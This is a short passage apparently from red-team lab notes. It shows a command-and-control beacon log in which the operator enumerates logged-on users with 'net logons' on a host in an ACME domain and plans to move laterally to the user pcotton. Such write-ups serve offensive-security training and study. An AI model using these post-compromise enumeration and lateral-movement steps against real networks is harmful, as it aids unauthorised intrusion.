 pcotton exists on the machine, gotta try to move to pcotton
```powershell
[02/16 19:54:43] beacon> net logons
[02/16 19:54:43] [*] Tasked beacon to run net logons on localhost
[02/16 19:54:43] [+] host called home, sent: 106292 bytes
[02/16 19:55:04] [+] received output:
Logged on users at \\localhost:

ACME\pcotton
ACME\consultant
ACME\WKSTN$
ACME\WKSTN$
ACME\WKSTN$
ACME\WKSTN$
ACME\WKSTN$
ACME\WKSTN$
ACME\WKSTN$
ACME\WKSTN$
```